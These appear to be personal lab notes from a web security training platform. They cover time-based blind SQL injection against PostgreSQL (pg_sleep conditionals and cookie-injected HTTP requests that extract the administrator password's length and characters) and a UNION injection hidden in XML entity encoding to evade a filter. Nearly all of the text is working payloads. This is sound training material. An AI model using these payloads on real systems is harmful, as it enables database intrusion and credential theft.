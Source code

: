 lab 15: Info retrieval
```sql
select if(1=1,sleep(10),'a')
	'%3bselect+if(1%3d1,sleep(10),'a')%3b'
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
	SELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END -- worked => PostgreSQL
SELECT CASE WHEN (substring('password',1,1)>'0') THEN pg_sleep(10) ELSE pg_sleep(0) END -- worked
SELECT CASE WHEN (substring((select password from users where username='administrator'),1,1)>'0') THEN pg_sleep(10) ELSE pg_sleep(0) END

# worked

Length:
SELECT CASE WHEN ((select length(password) from users where username='administrator')=20) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
```http
GET / HTTP/2
Host: 0ac0008504a44dc181a5678b00f500a5.web-security-academy.net
Cookie: TrackingId=c9SXpTpybEgz95mp'%3bSELECT+CASE+WHEN+((select+length(password)+from+users+where+username%3d'administrator')%3d20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END%3b'; session=LcMtffYxXvcdyj8HSGRFOP0uNOpYMhiK
```

length=20

```sql
SELECT CASE WHEN (substring((select password from users where username='administrator'),1,1)>'0') THEN pg_sleep(2) ELSE pg_sleep(0) END
```

### Lab 18: 
```sql
<@dec_entities> UNION select password from users where username='administrator'--<@/dec_entities>
-- Use the above to convert it into xml escape sequence.
Used as:
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId> 1 &#32;&#85;&#78;&#73;&#79;&#78;&#32;&#115;&#101;&#108;&#101;&#99;&#116;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#102;&#114;&#111;&#109;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#119;&#104;&#101;&#114;&#101;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#45;&#45;
	</storeId>
</stockCheck>
```